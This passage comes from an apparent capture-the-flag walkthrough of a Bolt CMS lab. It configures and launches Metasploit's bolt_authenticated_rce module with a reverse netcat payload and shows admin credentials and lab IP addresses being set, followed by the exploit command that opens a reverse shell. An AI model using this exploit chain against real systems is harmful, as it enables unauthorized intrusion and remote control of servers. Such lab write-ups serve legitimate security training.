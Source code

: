 ```bash
   VHOST                                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addre
                                       sses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > 
```
16. `set PASSWORD {JAKE'S PASSWORD}` to set the value of the **PASSWORD** variable to the target's admin password
17. `set RHOSTS {TARGET IP}` to set the value of the ** RHOSTS** variable to our target's IP address
18. `set USERNAME {JAKE'S USERNAME}` to set the value of the **USERNAME** variable to the target's admin username
19. `set LHOST {MACHINE IP}` to set the value of the **LHOST** variable to our attack machine's IP address
20. `set LPORT {PORT NUMBER}` to set the value of the **LPORT** variable to an unused port on our attack machine
21. `show options` to display the new configuration settings that we made for this module to verify that we have provided the correct necessary information that this it needs to properly execute
22. `exploit` to execute the exploit against our target, which ended up spawning in a reverse shell our target (RHOSTS) that connected back to to our attack machine (LHOST) on the local port (LPORT) that we specified
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.195.64
RHOSTS => 10.10.195.64
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
```
```bash
set LHOST 10.10.227.231
LHOST => 10.10.227.231
```